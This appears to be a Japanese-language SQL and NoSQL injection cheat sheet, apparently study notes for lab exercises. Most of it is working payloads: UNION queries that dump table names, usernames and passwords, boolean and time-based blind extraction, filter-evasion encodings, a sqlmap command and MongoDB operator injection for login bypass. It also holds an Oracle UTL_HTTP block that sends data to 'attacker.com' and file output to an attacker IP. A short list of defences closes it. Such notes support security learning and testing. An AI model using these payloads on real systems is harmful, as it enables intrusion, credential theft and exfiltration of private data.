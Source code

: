 # SQL インジェクション

## Error Based SQLi

画面で Select している列数を探る

```sql
1 union select 1,2,3
```

存在しないデータと Union したら 1,2,3 が表示されるか？（最初の 1 行だけ画面に表示されるパターン）

```sql
0 union select 1,2,3
```

データベース名

```sql
0 union select 1,2,database()
```

DB 内のテーブル名。group_concat で 1 つにまとめてるのがポイント。

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'データベース名'
```

テーブル内の列名

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'テーブル名'
```

全行を 1 セルに表示する

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```

## Blind Based SQLi

DB のデータには興味がなく、ログイン画面をバイパスするような、結果だけを求める場合

```sql
' or 1=1;--
```

## Boolean Based SQLi

データベース名を探索する  
※「このユーザー名は既に存在します」と表示されるような場面で使う

```sql
-- この結果がTrueで
a' UNION SELECT 1,2,3 where database() like '%';--

-- この結果がFalseで
a' UNION SELECT 1,2,3 where database() like 'a%';--

-- この結果がTrueであるとき、sから始まる名前のデータベースが存在することが分かる
-- 2文字目以降も同様に繰り返すことで、全体が判明する
a' UNION SELECT 1,2,3 where database() like 's%';--
```

テーブル名を探索する

```sql
-- Trueであるとき、aから始まるテーブルが存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'データベース名' and table_name like 'a%';--
```

列名を探索する

```sql
-- Trueであるとき、aから始まる列名が存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='データベース名' and TABLE_NAME='テーブル名' and COLUMN_NAME like 'a%';
```

保存されているデータを探索する

```sql
-- Trueであるとき、passwordの1文字目はaであることが分かる
a' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Time Based Blind SQLi

Boolean Based と同じだが、結果を画面表示から判別できない場合に、時間遅延で Boolean の判定をする

```sql
-- これがすぐに返り、
a' UNION SELECT SLEEP(5);--

-- これで5秒の遅延が発生する場合、列数が2であることが分かる
a' UNION SELECT SLEEP(5),2;--

-- 遅延が発生する場合、1文字目が4であることが分かる
a' UNION SELECT sleep(5),2 from users where username='admin' and password like '4%';--
```

時間遅延を利用して、Salt、ユーザー名、メールアドレス、パスワードをクラックしているエクスプロイトの例  
https://www.exploit-db.com/exploits/46635

## 帯域外 SQLi

### ファイル出力

```SQL
-- MySQL, MariaDB
-- secure_file_priv設定で出力ディレクトリを限定可能
SELECT sensitive_data FROM users INTO OUTFILE '\\\\<ip>\\logs\\out.txt';

-- MS SQL Server
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\<ip>\logs\out.txt" -c -T';
```

### HTTP

```SQL
-- Oracle  see UTL_FILE
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```

## フィルター回避

```text
# URLエンコード
' OR 1=1-- -> %27%20OR%201%3D1--+

# 16進エンコード
name = 'admin' -> name = 0x61646d696e

# Unicodeエンコード
admin -> \u0061\u0064\u006d\u0069\u006e

# CONCAT
admin -> CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)
CHAR(0x61,0x64,0x6D,0x69,0x6E)

# スペースを置き換え
SELECT/**//*FROM/**/users/**/WHERE/**/name/**/='admin'
SELECT+FROM+users+WHERE+name='admin'
SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'
%09 (水平タブ)、%0A (改行)、%0C (フォームフィード)、%0D (復帰)、%A0 (改行なしスペース)

# キーワード回避
SELEcT * FROM users
SE/**/LECT * FROM/**/users

# 論理演算子
AND -> &&
OR -> ||
```

## インジェクションリスト

https://github.com/payloadbox/sql-injection-payload-list/raw/refs/heads/master/Intruder/exploit/Auth_Bypass.txt

intruder 等で使って弱点を探る。

## sqlmap

email パラメータに SQLi 脆弱性がある場合

```shell
sqlmap -u "http://10.10.199.72/user_login.php" \
--method POST \
--data "email=aaa&password=bbb" \
--cookie "PHPSESSID=lfam149vv8q8ct03i4msqgpu1f" \
-p "email" -a \
--exclude-sysdbs \
--sql-query \
--parse-errors \
--batch -v 3
```

## NoSQL

### 演算子インジェクション

#### 認証バイパス

```php
# このクエリを想定したとき、
$user = $_POST['user'];
$pass = $_POST['pass'];
$q = new MongoDB\Driver\Query(['username'=>$user, 'password'=>$pass]);

# このポストデータを渡すと、
user[$ne]=xxxx&pass[$ne]=yyyy

# この連想配列として解釈されるため、
$_POST = [
    'user' => ['$ne' => 'xxxx'],
    'pass' => ['$ne' => 'yyyy']
];

# すべてのデータを抽出するクエリになる
$q = new MongoDB\Driver\Query(['username'=>['$ne' => 'xxx'], 'password'=>['$ne' => 'yyy']]);

# admin, user1 以外のユーザー
user[$nin][]=admin&user[$nin][]=user1&pass[$ne]=yyyy

$q = new MongoDB\Driver\Query(['username'=>['$nin' => ['admin', 'user1']], 'password'=>['$ne' => 'yyy']]);
```

#### パスワード推測

```php
# これでログインできるなら、パスワードは5文字
user=admin&pass[$regex]=^.{5}$

# これでログインできるなら、1文字目はc
user=admin&pass[$regex]=^c....$

```

## セキュリティ

- フレームワークの Prepared Statements を使用する
- 入力検証
- ユーザー入力のエスケープ
